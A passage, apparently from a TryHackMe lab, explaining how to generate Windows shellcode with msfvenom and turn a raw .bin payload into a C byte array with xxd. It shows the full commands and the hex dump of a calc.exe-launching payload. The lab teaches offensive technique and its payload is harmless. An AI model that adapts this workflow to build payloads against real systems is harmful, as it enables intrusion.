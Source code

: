 ![Executing MSF Payload to run calc.exe](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e90959ae18f71d51d7b8681676029493.png)  

The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

Generate Shellcode from EXE files

Shellcode can also be stored in `.bin` files, which is a raw data format. In this case, we can get the shellcode of it using the `xxd -i` command.

C2 Frameworks provide shellcode as a raw binary file `.bin`. If this is the case, we can use the Linux system command `xxd` to get the hex representation of the binary file. To do so, we execute the following command: `xxd -i`.

Let's create a raw binary file using msfvenom to get the shellcode:

Generate a Raw shellcode to Execute calc.exe

```shell-session
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
```

And run the `xxd` command on the created file:

Get the shellcode using the xxd command

```shell-session
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```
